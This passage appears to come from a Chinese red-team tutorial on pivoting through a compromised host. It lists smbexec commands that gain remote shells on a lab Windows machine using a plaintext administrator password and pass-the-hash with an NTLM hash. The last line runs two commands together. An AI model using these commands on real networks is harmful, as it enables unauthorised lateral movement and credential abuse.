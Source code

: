 
利用拿下的主机做跳板尝试拿下其他不出网主机

[![](assets/1702372940-79f3485df8829cd6b7a7be75f34e0e14.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/20.png)

#### [](#smbexec "smbexec")smbexec[](#smbexec)

外部：(交互式)，和 psexec 一样

```bash
smbexec ./administrator:Abcd1234@192.168.91.178

smbexec god/administrator:Abcd1234@192.168.91.178

smbexec -hashes :c780c78872a102256e946b3ad238f661 ./administrator@192.168.91.178

smbexec -hashes :c780c78872a102256e946b3ad238f661 god/administrator@192.168.91.178smbexec -hashes god/administrator:c780c78872a102256e946b3ad238f661@192.168.91.178
```
